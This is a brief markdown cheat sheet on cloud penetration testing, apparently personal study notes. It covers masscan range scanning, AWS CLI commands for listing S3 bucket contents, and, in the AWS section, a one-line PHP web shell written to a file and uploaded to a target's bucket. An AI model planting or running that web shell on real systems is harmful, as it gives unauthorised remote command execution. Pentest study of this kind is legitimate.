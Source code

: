 # Cloud Pentesting    
Main Cloud platforms: Amazon Web Services, Microsoft Azure, Google Cloud    
Use masscan to scan a large IP range:      

    $ masscan 10.10.0.1/24 -p 22,25,80,443,3389            
    --rate 50000   #fastest scan    
## AWS     
AWS GuardDuty for security.    
Tools      

    https://aws.amazon.com/cli/   #AWS CLI    
   
    aws configure     #set up, can put temp in all values   
    aws s3 ls bucket.site.com    #list contents of a bucket    
    aws --endpoint=http://s3.site.com s3 ls      
    aws --endpoint=http://s3.site.com s3 ls s3://site.com   #list objects and common prefixes   
  
   # might be able to upload a php web shell
    echo '<?php system($_GET["cmd"]); ?>' > shell.php
    aws --endpoint=http://s3.site.com s3 cp shell.php s3://site.com    

    
Resources      

    https://www.hackthebox.com/blog/aws-pentesting-guide    
    
## Azure    
Built in security with Azure Sentinel.     

## Google Cloud   
GCP Cloud Armor for security.   
